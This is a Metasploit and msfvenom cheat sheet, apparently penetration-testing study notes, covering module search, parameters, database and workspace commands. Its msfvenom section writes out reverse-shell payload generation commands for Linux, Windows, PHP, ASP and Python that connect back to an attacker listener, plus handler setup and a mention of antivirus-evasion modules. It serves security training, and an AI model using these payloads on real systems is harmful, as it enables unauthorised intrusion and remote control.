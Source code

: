# Metasploit Cheat Sheet

**`msfconsole`** 

Reminders:

- Has tab completion
- some Linux commands don’t work (like output redirection)
- Context settings (like RHOSTS) are not global unless set with `setg`
- meterpreter = post-exploit payload shell
- `-h` is a great command flag

**Simple HTTP server:**

`python3 -m http.server 9000`

### **Context**

`use <module-name|module-index>` - Loads a module 
(ex: `use exploit/windows/smb/ms17_010_eternalblue`)

`show options` - Lists parameters for the loaded module

`show payloads` - Lists all payloads or those compatible for chosen exploit

`back` - Exit the module context

`info <module-name|module-index>` - Detailed information on the loaded module

### **Modules Searching**

- `search <keyword>` - Searches by CVE, name, or description.
- Filters:
    - `type:<auxiliary|exploit|post|payload>`
    - `platform:<windows|linux|unix>`
    - `cve:<CVE-ID>`
- Example: `search type:auxiliary telnet`

**Exploit Ranking** (Reliability) - [https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

### Setting Parameters

- **`set <parameter> <value>`** - Set <value> for current module only.
- **`setg <parameter> <value>`** - Set global <value> (applies to all modules).
- **`unset <parameter>`** - Remove a set value.
- **`unset all`** - Clear all parameters for current module.
- **`unsetg <parameter>`** - Clear global value.
- don’t forget to `set payload <name|index>`

### Common Parameters

- RHOSTS - Target IP, range, CIDR, or file:/path/to/file.txt
- RPORT - Target port (default depends on module)
- PAYLOAD - Code to run after exploitation
- LHOST - Attacker’s IP (listener)
- LPORT - Attacker’s port for reverse connection
- SESSION - Session ID for post-exploitation modules

### **Running Modules**

- **`exploit`** - Run module
- **`exploit -z`** - Run and background the session immediately
    - **`background`** or **CTRL+Z** - Send active session to background
    - **`sessions`** - List active sessions
    - **`sessions -i <id>`** - Interact with a session
- **`run`** - Same as `exploit` but  for non-exploit modules
- **`check`** - Test if target is vulnerable without exploiting

### Categories of Modules

Auxiliary - Supporting functions (scanners, crawlers, fuzzers, sniffers, spoofing, SQLi, VoIP, etc.).

Encoders - Encode payloads to attempt antivirus evasion (limited success).

Evasion - Modules specifically designed to bypass antivirus/defensive measures.

Exploits - Organized by target OS/platform (Windows, Linux, macOS, etc.).

NOPs - No-operation instructions (buffers for payload size consistency).

Post - Modules for post-exploitation (privilege escalation, data collection, persistence).

Payloads - Code executed on target:

Adapters - Convert payloads into other formats (e.g., PowerShell).

Singles - Self-contained payloads (no extra downloads).

Stagers - Set up connection channel for staged payloads.

Stages - Main payload delivered by stager (can be larger/more complex).

### Metasploit Database Setup

1. Start PostgreSQL:

`systemctl start postgresql`

1. Initialize Database (run as *postgres* user):

`sudo -u postgres msfdb init`

1. Delete Existing DB (optional):

`sudo -u postgres msfdb delete`

1. Check Status in msfconsole:

msf6> `db_status`

### **Database Commands**

- `db_nmap` – Run Nmap & save results to DB
- `hosts` – List discovered hosts
    - `hosts -R` → Populate `RHOSTS` parameter with all hosts in DB
    - `-h` for addition flags
- `services` – List discovered services
    - `services -S <service>` → Filter by service name
    - `-h` for addition flags
- `loot` – List collected files/data
- `vulns` – List recorded vulnerabilities

### **Workspaces**

- **List**: `workspace`
- **Add**: `workspace -a <name>`
- **Delete**: `workspace -d <name>`
- **Switch**: `workspace <name>`
- **Help**: `workspace -h`

## Msfvenom

- List payloads:

`msfvenom -l payloads`

- List formats:

`msfvenom --list formats`

- List encoders:

`msfvenom -l encoders`

- Basic Payload Generation

`msfvenom -p <payload> LHOST=<attacker_ip> LPORT=<port> -f <format> -e <encoders> > <filename>`

**Payload Generation Examples:**

- Linux ELF:

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`

- Windows EXE:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`

- PHP:

`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`

*cat into the output file and append  PHP tags:* `<?php` & `?>`

- ASP:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`

- Python:

`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw -e php/base64 > rev_shell.py`

### **Setting up a Listener (Multi/Handler)**

*manual setup for standalone payloads (created above or script kiddie’d elsewhere)*

`use exploit/multi/handler`

`set payload <same_payload_used_in_msfvenom>`

`set lhost <attacker_ip>`

`set lport <port>`

`run`

Now get target to run the payload to catch a Meterpreter shell :)